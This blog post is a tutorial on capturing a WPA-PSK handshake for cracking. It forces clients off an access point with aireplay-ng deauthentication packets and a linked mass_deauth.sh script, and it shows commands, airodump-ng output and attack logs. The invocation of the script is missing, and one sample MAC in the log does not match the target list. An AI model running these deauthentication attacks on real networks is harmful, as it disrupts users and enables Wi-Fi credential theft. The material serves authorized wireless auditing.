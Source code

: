 ```yaml
---
layout: post
title: "Capturing the WPA handshake using mass deauthentication"
date: 2010-12-20 18:10:26 -0400
comments: true
categories: coding howto hacking
alias: /2010/12/capturing-wpa-handshake-using-mass.html
---
```


Capturing the 4-way handshake required to crack WPA-PSK can be a bit frustrating when you can't get a client to deauthenticate and reauthenticate with the access point. One option is to deauthenticate all the clients by not providing the client's MAC address when running the deauthentication attack:

<!--more-->

```
aireplay-ng -0 1 -a 00:0F:66:XX:XX:XX mon0
```

This is a bit overkill since you might not want to knock out all the clients on the network when performing an audit. The alternative is to target different clients and hope one of them deauthenticates and reauthenticates. This can be time consuming as you'll be picking one client, trying it, then picking another if it doesn't work. 

To solve this problem, I've written a little script that lets you deauthenticate several targeted clients and increases your chances of the deauthentication attack working. 

You can grab the latest version from [GitHub](https://github.com/superkojiman/mass_deauth).

Let's take a look at a sample WPA-PSK network captured by airodump-ng:

```
 CH  6 ][ Elapsed: 11 mins ][ 2010-12-20 14:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:XX:XX:XX  -60   4      130     3917    2   6  54   WPA  TKIP   PSK  prime2
 
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes
 
 00:0F:66:XX:XX:XX  00:26:BB:XX:XX:XX  -46   54 -54     51     1716
 00:0F:66:XX:XX:XX  00:13:E8:XX:XX:XX  -46   54 -12     18      219
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```
 
 Our target access point is called prime2 and it has six clients connected to it. Let's say we want to deauthenticate the last four on that list. The fastest way to do that is to just copy and paste those lines into a file. Call it target_list.txt. It should look like this:

```
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```

Next, run mass_deauth.sh and pass it target_list.txt:

A quick explanation on what the options mean. 

* -i is the interface we're using. In this case, mon0
* -t is the file containing the clients, target_list.txt
* -a: is the access point's MAC address.
* -n is the number of deauthentication packets to send. If you don't use -n it defaults to 1. In this case, we're going to send 5 deauthentication packets.

Run the command and you should get output similar to the following for each targeted client:

```
Attempting to deauthenticate 90:4C:E5:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c 90:4C:E5:XX:XX:XX mon0
14:34:15  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [26|45 ACKs]
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [47|42 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [48|43 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [45|37 ACKs]
14:34:18  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [29|50 ACKs]
 
Attempting to deauthenticate C4:46:19:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c C4:46:19:XX:XX:XX mon0
14:34:24  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:25  Sending 64 directed DeAuth. STMAC: [C4:46:19:XX:XX:XX] [ 7|51 ACKs]
.
.
.
```

With any luck, at least one of the clients you targeted should have deauthenticated and reauthenticated, thus allowing you to capture the 4-way handshake. If not, give it another go and maybe increase the number of deauthentication packets sent and see if that helps. 

